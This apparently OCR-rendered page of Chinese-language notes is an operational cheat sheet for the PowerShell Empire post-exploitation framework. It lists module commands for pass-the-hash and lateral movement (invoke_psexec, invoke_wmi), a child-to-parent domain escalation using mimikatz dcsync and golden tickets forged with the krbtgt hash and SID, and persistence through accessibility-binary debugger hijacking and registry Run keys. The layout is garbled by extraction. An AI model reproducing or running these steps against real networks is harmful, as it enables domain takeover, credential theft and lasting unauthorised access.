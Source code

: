 #####   

```
**Hash传递**
```

```


```
`Invoke-PsExec可能会被查杀``>usemodule situational_awareness/network/powerview/find_localadmin_access 列出可PSexec横向移动的机器``>usemodule lateral_movement/invoke_psexec需设置ComputerName和Listener``或``>usemodule lateral_movement/invoke_wmi需设置ComputerName和Listener，credID``跨域``父域域控：dc.zone.com``子域域控：sub.zone.com``子域计算机：pc.sub.zone.com``子域普通用户：sub\user1``查看信任关系``>usemodule situational_awareness/network/powerview/get_domain_trust``获取父域krbtgt SID，使用management/user_to_sid获取sid``需设置Domain和User=krbtgt``>usemodule credentials/mimikatz/dcsync 设置UserName 子域\krbtgt 获取子域hash``>usemodule credentials/mimikatz/golden_ticket 伪造sid``需设置User为伪造用户 sids伪造的标识符{krbtgt sid}-519``>usemodule credentials/mimikatz/dcsync 获取父域krbtgt的hash``>usemodule credentials/mimikatz/golden_ticket 使用父域krbtgt进行PTH攻击，指定父域CredID，用户名和域``>shell dir \\dc.zone.com\c$`
```




```

#### **后门&持久化**

##### **映像劫持**

```


```
`>usemodule lateral_movement/invoke_wmi_debugger``设置Listener，ComputerName(大写)，TargetBinary(sethc.exe, Utilman.exe, osk.exe, Narrator.exe, Magnify.exe)，分别是粘滞键，轻松访问，屏幕键盘，讲述人，放大镜。`
```




```

#####   

```
注入注册表启动项  

```

```


```
`>usemodule persistence/elevated/registry*``设置Listener，注册表路径RegPath [HKLM\software\microsoft\windows\currentversion\run]`
```




```
